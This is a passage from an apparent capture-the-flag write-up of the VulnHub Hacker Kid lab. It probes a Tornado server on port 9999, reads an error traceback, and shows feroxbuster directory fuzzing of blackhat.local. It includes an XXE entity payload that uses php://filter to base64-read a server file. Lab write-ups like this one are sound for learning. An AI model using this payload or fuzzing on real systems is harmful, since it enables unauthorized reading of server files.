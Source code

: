 How does this help us? Actually, it doesn't much. I think there was supposed to be a file read hint for the next part, but I couldn't find anything useful with this.

## 9999
We had another port. What does that look like?

If we go straight to the page (i.e. http://192.168.1.88:9999/) we get redirected to a login form (http://192.168.1.88:9999/login?next=%2F). If we look at our headers, we find this:

>Server: TornadoServer/6.1

And if we put a nonsense URL we can get an error that might be useful, e.g. http://192.168.1.88:9999/ajksdfhajks gives:

{% highlight html %}
Traceback (most recent call last):
  File "/usr/local/lib/python3.8/dist-packages/tornado/web.py", line 1681, in _execute
    result = self.prepare()
  File "/usr/local/lib/python3.8/dist-packages/tornado/web.py", line 2430, in prepare
    raise HTTPError(self._status_code)
tornado.web.HTTPError: HTTP 404: Not Found
{% endhighlight %}

You can read that file (/usr/local/lib/python3.8/dist-packages/tornado/web.py) with the XXE if you want, but you have to base64 encode it:

{% highlight shell %}
<!DOCTYPE root [<!ENTITY xxe SYSTEM 'php://filter/convert.base64-encode/resource=/usr/local/lib/python3.8/dist-packages/tornado/web.py'>]>
{% endhighlight %}

## Now what?
If we fuzz **blackhat.local** we can find a few things:

{% highlight shell %}
┌──(root💀kali)-[/opt/vulnhub/hackerkid]
└─# feroxbuster -u http://blackhat.local -w /usr/share/seclists/Discovery/Web-Content/big.txt -t 200 -C 403 -x html

 ___  ___  __   __     __      __         __   ___
|__  |__  |__) |__) | /  `    /  \ \_/ | |  \ |__
|    |___ |  \ |  \ | \__,    \__/ / \ | |__/ |___
by Ben "epi" Risher 🤓                 ver: 2.3.1
───────────────────────────┬──────────────────────
 🎯  Target Url            │ http://blackhat.local
 🚀  Threads               │ 200
 📖  Wordlist              │ /usr/share/seclists/Discovery/Web-Content/big.txt
 👌  Status Codes          │ [200, 204, 301, 302, 307, 308, 401, 403, 405]
 💢  Status Code Filters   │ [403]
 💥  Timeout (secs)        │ 7
 🦡  User-Agent            │ feroxbuster/2.3.1
 💉  Config File           │ /etc/feroxbuster/ferox-config.toml
 💲  Extensions            │ [html]
 🔃  Recursion Depth       │ 4
 🎉  New Version Available │ https://github.com/epi052/feroxbuster/releases/latest
───────────────────────────┴──────────────────────
 🏁  Press [ENTER] to use the Scan Cancel Menu™
──────────────────────────────────────────────────
301        9l       28w      321c http://blackhat.local/javascript
301        9l       28w      320c http://blackhat.local/templates
301        9l       28w      328c http://blackhat.local/javascript/jquery
200       10l       14w      141c http://blackhat.local/templates/index.html
200       17l       32w      332c http://blackhat.local/templates/login.html
200    10365l    41507w   271809c http://blackhat.local/javascript/jquery/jquery